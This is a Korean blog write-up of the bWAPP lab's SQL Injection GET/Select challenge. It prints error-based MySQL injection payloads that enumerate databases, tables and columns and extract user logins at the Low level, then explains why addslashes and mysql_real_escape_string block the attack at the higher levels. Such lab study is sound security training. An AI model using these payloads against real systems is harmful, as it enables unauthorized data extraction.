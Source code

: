 ```yaml
---
layout: single
title: (bWAPP)SQL Injection GET/Select
categories: Web-vuln
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```

# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low
![그림 1-1](/assets/image/bwapp/sqli-select/image1.png)
- Select 기능이 존재하고 영화 제목을 질의할 수 있다. 또한 해당 질의의 응답으로 게시판 형식이 출력된다.
- 출력되는 레코드는 하나의 열만 출력하는 듯 하다.
- GET 형식으로 데이터가 전송된다.

```
bWAPP/sqli_2.php?movie=4&action=go
```

- GET 형식으로 날라갈 때 파라미터를 보게되면 movie 파라미터에 idx 형식으로 전송된다.

![그림 1-2](/assets/image/bwapp/sqli-select/image2.png)

```
bWAPP/sqli_2.php?movie=1 and 1=1-- &action=go
```

- '(싱글쿼터) 입력시 DBMS Error 가 발생하며, MySQL 사용 유/무 및 Injection 취약 유/무를 확인했다.

> 해당 실습에서는 Error Based가 가능하여 해당 로직의 경우 Error Based 보다 UNION Based 가 시간적으로나 모든 면에서 효율적이나 실습을 위해 Error Based 로 진행하였다.

```sql
(SELECT 1 FROM (SELECT COUNT(*),concat(select schema_name from information_schema.schemata limit 0,1,FLOOR(rand(0)*2))x FROM information_schema.schemata GROUP BY x limit 0,1 )a)--
```

- 해당 구문을 통해 데이터베이스를 순차적으로 하나씩 확인이 가능하다.

```sql
(SELECT 1 FROM (SELECT COUNT(*),concat((select table_name from information_schema.tables where table_schema='bWAPP' limit 0,1),FLOOR(rand(0)*2))x FROM information_schema.tables GROUP BY x limit 0,1 )a)--
```

- 테이블 또한 위 구문을 통해 순차적으로 확인이 가능하다

```sql
(SELECT 1 FROM (SELECT COUNT(*),concat((select column_name from information_schema.columns where table_schema='bWAPP' and table_name='users' limit 0,1),FLOOR(rand(0)*2))x FROM information_schema.columns GROUP BY x limit 0,1 )a)--
```

- 컬럼명 조회를 위한 구문이며, 순차적으로 접근하며 login 컬럼이 발견되어 해당 컬럼에 대한 데이터 추출 시도를 하였다.

```sql
(SELECT 1 FROM (SELECT COUNT(*),concat((select login from bWAPP.users limit 0,1),FLOOR(rand(0)*2))x FROM information_schema.tables GROUP BY x limit 0,1 )a)--
```

![그림 1-3](/assets/image/bwapp/sqli-select/image3.png)
- 성공적으로 데이터를 추출했다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.